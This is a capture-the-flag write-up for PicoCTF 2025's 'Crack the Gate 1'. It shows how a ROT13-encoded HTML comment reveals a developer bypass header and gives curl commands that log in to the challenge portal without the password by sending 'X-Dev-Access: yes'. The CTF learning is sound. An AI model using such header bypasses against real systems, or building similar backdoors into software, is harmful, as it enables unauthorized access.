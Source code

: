 # Crack the Gate 1 (PicoCTF 2025)

## Challenge Description

We are given a web portal with a login form. The goal is to log in as the known user:

```
ctf-player@picoctf.org
```

However, the password is unknown, and normal login attempts return:

```json
{"success": false, "error": "Unauthorized access."}
```

![no](./img/no.png)


The HTML source contains a curious comment:


![source](./img/source.png)

```html
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
```

> A common trick is to rotate each letter by 13 positions in the alphabet.

this is the hint given with the challenge 

This hints at a ROT13-encoded message. Decoding it yields:

```
NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"
```

we can use [rot13](https://rot13.com/) to decode

![rot13](./img/rot13.png)

This indicates the developer left a secret way in: an HTTP header bypass.




---

## with out header

now lets send request to the `login page` using curl with out header

```bash
curl -s -X POST http://amiable-citadel.picoctf.net:55923/login   -H "Content-Type: application/json" -d '{"email":"ctf-player@picoctf.org","password":"anything"}' | jq .
```

![no](./img/unauthrized.png)

---

## Seeding the Header

To unlock access:

use this command 


```bash
curl -s -X POST http://amiable-citadel.picoctf.net:49900/login   -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"anything"}' | jq .
```


![result](./img/result.png)

---
